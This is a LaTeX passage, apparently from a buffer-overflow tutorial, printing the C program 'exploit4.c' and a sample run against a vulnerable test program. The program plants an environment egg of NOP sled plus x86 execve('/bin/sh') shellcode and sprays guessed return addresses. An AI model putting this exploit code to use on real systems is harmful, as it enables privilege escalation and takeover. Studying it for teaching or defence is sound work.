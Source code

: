 \documentclass[a4paper]{article}
\begin{document}
\begin{listing}[H]
\begin{verbatim}

#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048
#define NOP                            0x90

char shellcode[] =
	"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
	"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	"\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void) {
	 __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
	char *buff, *ptr, *egg;
	long *addr_ptr, addr;
	int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
	int i, eggsize=DEFAULT_EGG_SIZE;

	if (argc > 1) bsize   = atoi(argv[1]);
	if (argc > 2) offset  = atoi(argv[2]);
	if (argc > 3) eggsize = atoi(argv[3]);


	if (!(buff = malloc(bsize))) {
		printf("Can't allocate memory.\n");
		exit(0);
	}
	if (!(egg = malloc(eggsize))) {
		printf("Can't allocate memory.\n");
		exit(0);
		}

	addr = get_esp() - offset;
	printf("Using address: 0x%x\n", addr);

	ptr = buff;
	addr_ptr = (long *) ptr;
	for (i = 0; i < bsize; i+=4)
	*(addr_ptr++) = addr;

	ptr = egg;
	for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
	*(ptr++) = NOP;

	for (i = 0; i < strlen(shellcode); i++)
	*(ptr++) = shellcode[i];

	buff[bsize - 1] = '\0';
	egg[eggsize - 1] = '\0';

	memcpy(egg,"EGG=",4);
	putenv(egg);
	memcpy(buff,"RET=",4);
	putenv(buff);
	system("/bin/bash");
}

\end{verbatim}
\caption{exploit4.c}
\label{listing:1}
\end{listing}


Lets try our new exploit with our vulnerable test program:

\begin{lstlisting}[style=DOS]
$  ./exploit4 768
Using address: 0xbffffdb0
$ ./vulnerable $RET
\end{lstlisting}
\end{document}
